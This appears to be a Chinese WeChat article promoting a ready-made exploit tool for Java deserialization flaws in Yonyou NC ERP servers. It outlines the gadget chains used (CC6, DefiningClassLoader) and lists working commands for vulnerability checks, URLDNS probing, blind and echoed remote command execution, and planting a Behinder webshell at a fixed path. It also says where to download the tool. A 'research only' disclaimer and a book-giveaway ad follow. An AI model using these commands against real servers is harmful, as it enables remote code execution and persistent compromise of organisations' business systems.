 #  NC反序列化漏洞payload生成

Ghost2097221  [ Web安全工具库 ](javascript:void\(0\);)

**Web安全工具库** ![]()

微信号 websec-tools

功能介绍 将一些好用的红队工具、蓝队工具及自己的学习笔记分享给大家。。。

____

___发表于_

收录于合集

#反序列化 11 个

#序列化 7 个

> 项目作者：Ghost2097221
>
> 项目地址：https://github.com/Ghost2097221/YongyouNC-Unserialize-Tools

  

 **0x01 **前言****

无回显的构造链直接使用的是 CC6执行命令，回显的构造链使用了DefiningClassLoader来绕过默认的黑名单，然后结合
CC6构造链进行任意代码执行。搭配了接口检测功能和URLDNS构造链判断是否存在反序列化。

  

 **0x02 接口检查功能**

  * 

    
    
     java -jar nc6.5.jar http://127.0.0.1 Check

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141244.png)

  

 **0x03 URLDNS构造链探测**

  * 

    
    
     java -jar nc6.5.jar http://127.0.0.1 urldns http://123.dnslog.cn

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141245.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141246.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141248.png)

 **0x04 无回显命令执行**

  * 

    
    
     java -jar yonyouNCTools.jar http://192.168.222.130 blind calc.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141249.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141250.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141252.png)

0x05 回显命令执行

  * 

    
    
    java -jar yonyouNCTools.jar http://192.168.222.130 Execute，通过 Header头传递命令。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141254.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141255.png)

 **0x06 落地 webshell**

  * 

    
    
     java -jar yonyouNCTools.jar http://192.168.222.130 UploadShell "C:\Users\Administrator\Pictures\Camera Roll\1.jsp"

此处如果使用 java1.8运行，固定落地一个天蝎的 webshell，路径为：http://127.0.0.1/eozZEwBb.jsp，如果使用的是
java1.7运行，会重新动态编译，可以落地自定义的 webshell，路径随机。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141258.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141300.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141302.png)

 **0x07 下载地址**

1、通过项目地址下载

2、关注web安全工具库公众号，后台回复：20220910

  

 **0x04 声明**

仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者不承担任何法律及连带责任。

  

 **推 荐 阅 读**

  
  
  

加我微信：ivu123ivu，进送书活动群，不定时免费送书

  

《Python深度学习从零开始学》

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923141304.png)

>
> 本书以通俗易懂的方式详细介绍深度学习的基础理论及其相关知识，同时提供图像识别、情感分析、迁移学习、人脸识别、图像风格迁移、生成对抗网络等案例引导读者入门深度学习。

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

